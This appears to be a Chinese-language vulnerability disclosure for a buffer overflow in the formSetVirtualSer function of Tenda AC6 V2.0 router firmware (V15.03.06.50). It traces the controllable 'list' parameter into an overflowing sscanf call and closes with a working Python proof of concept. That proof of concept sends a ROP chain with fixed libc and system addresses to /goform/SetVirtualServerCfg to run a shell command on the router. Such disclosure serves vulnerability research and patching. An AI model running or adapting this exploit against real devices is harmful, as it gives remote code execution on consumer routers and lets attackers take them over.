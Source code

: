 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetVirtualSer` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数list可控

<img width="384" alt="{927F719C-7572-4C78-A0E5-1D5690767446}" src="https://github.com/user-attachments/assets/124fd028-d56a-47cc-842e-4ab7ad5b5482">

跟进save_virtualser_data函数，list赋值给变量p

<img width="430" alt="{1930F56C-54D8-4057-A28D-4210ED88F17A}" src="https://github.com/user-attachments/assets/ab39f653-caf7-4b06-ae88-8fac4efee49b">

变量p通过sscanf函数复制给其他变量，产生溢出

<img width="540" alt="{5B434085-4CE5-430D-B922-B5F0B029D91E}" src="https://github.com/user-attachments/assets/112108f8-b013-4f05-9f53-644607b4c80d">


## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_list():
	url = f"http://{target_ip}/goform/SetVirtualServerCfg" 
	payload = b'192.168.0.1,8080,9090,'+b'b'*0x18+rop	
	data = {"list": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_list()
